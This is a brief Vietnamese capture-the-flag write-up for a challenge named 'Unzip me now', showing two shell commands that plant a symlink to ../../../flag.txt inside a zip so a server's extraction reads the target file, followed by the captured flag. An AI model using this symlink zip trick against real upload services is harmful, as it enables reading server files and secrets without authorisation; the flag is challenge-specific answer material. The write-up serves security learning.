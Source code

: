 # Unzip me now

![alt text](image.png)

Bài này liên quan đến upload file bằng file zip, như tiêu đề thì mình search thấy ngay có một file thuật liên quan đến vấn đề này. Hãy lên hack trick để tìm

```
ln -s ../../../flag.txt test.txt
zip --symlinks test.zip test.txt
```

Ban đầu ta tạo một symlink liên kết trực tiếp tới file test.txt

Sau đó nén nó lại, và khi giải nén với option syslinks thì file vẫn là một symlink và đi đọc nó sẽ link tới /flag.txt


Flag: CHH{zIPpy_PATH_tRAvERS4l_7b702e6eddbd29d423facb5af456afff}